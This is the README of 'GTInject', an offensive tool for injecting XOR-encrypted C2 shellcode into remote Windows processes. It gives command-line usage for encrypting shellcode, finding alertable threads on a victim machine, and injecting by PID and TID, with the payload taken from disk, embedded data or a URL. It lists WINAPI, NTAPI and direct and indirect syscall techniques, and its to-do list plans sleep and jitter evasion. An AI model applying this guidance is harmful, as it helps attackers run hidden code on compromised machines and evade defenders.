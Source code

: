 # GTInject
**Portable and Modular Remote Process Injection**

Remote process injection in C2 frameworks are often limited to one or two techniques built by the beacon developer. This tool is designed to offer mix and match memory allocation and thread execution techniques for process injection, with the goal of being portable accross C2 systems. 

It is largely inspired by the flexibility given within Brute Ratel, which made other C2 injection options feel extremely limited. I wanted to recreate that functionality for other C2s that I like using. 



## GTInject.exe Help Menu

## Usage: GTInject.exe \<module> \<moduleArgs>
       GTInject.exe threads
       GTInject.exe encrypt pathToSource.bin MySecretXorKey
       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

## Encrypt  -- for encrypting shellcode:
**Do this in preparation, NOT on the C2 victim machine.**

       GTInject.exe encrypt pathToSource.bin MySecretXorKey

Shellcode from your C2 will be multibyte XOR'd and written in various formats.

This is intended to help you use the injection option later with better OpSec.

## Threads  -- check for alertable threads:

       GTInject.exe threads


This will list all threads and their current execution state.

This is intended to help identify alertable threads, for injection options like QueueUserAPC.
It will show processes you have access to, and any threads in the following states:
- Wait
- Suspended
- Delay Execution



## Inject   -- choose a process injection method

       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

Choose a technique for allocating the memory from your options below.

Then choose a technique for executing the thread from your options below.

Enter the XorKey to decrypt it with, the same one you used to encrypt the shellcode earlier.

Specify a location type where the encrypted shellcode is stored. Acceptable values are
- disk
- url
- embedded

Specify the path to that shellcode
- "C:\path\to\shellcode.file"
- https://example.com/shellcode.b64file
- 0 (embedded)

Specify the PID you want to inject into.

OPTIONALLY specify the TID (not all options need a Thread ID).

## Call Categories
- 100 Series - WINAPI
- 200 Series - NTAPI 
- 300 Series - Syscalls
- 400 Series - Misc Techniques

## Memory Options
        100. WINAPI  -- VirtualAllocEx, WriteProcessMemory
        200. NTAPI   -- NtCreateSection, NtMapViewOfSection, RtlCopyMemory
        201. NTAPI   -- NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        300. SysCall -- Direct, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory 
        301. SysCall -- Direct, NtCreateSection, NtMapViewOfSection, RtlCopyMemory 
        302. SysCall -- Indirect, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        303. SysCall -- Indirect, NtCreateSection, NtMapViewOfSection, RtlCopyMemory

## ThreadExec Options
        100. WINAPI  -- CreateRemoteThread
        101. WINAPI  -- QueueUserAPC, ResumeThread
        200. NTAPI   -- NtCreateThreadEx
        201. NTAPI   -- RtlCreateUserThread
        202. NTAPI   -- NtQueueApcThread, NtResumeThread
        300. SysCall -- Direct, NtCreateThreadEx
        301. SysCall -- Direct, NtQueueApcThread, NtResumeThread
        302. SysCall -- Indirect, NtCreateThreadEx
        303. SysCall -- Indirect, NtQueueApcThread, NtResumeThread

# ToDo
- Obvious, add more techniques
  - for each technique, build in as many call categories as possible
- Build 400 series logic : *novel injection methods*
  - 400 series breaks the 3 primitives - determine flow and if additional modules are needed
- In the Alertable Threads function - bring in integrity 
  - filter based on AppContainers - have option to show all anyway
- Better ReadMe
  - usage video
- Add Sleep / Delay function
  - determine where delay should happen ... set to a static value 30 seconds, sleep between memory allocation and thread execution? or between each API call? 
  - add Jitter/multiplier? so user selects 10 seconds, 3x and it will wait at least 10 seconds, and up to 30 seconds between execution?
  - worth the extra arguments?
